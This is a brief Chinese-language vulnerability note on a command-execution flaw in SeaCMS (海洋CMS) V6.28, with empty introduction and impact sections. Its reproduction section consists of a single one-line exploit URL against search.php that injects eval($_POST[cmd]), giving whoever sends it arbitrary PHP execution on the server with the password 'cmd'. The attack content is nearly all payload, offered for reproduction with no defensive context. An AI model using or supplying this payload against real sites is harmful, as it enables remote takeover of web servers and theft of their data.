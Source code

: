 海洋CMS V6.28 命令执行
======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    一句话payload，密码cmd:

    http://0-sec.org/search.php?searchtype=5&tid=&area=eval($_POST[cmd]
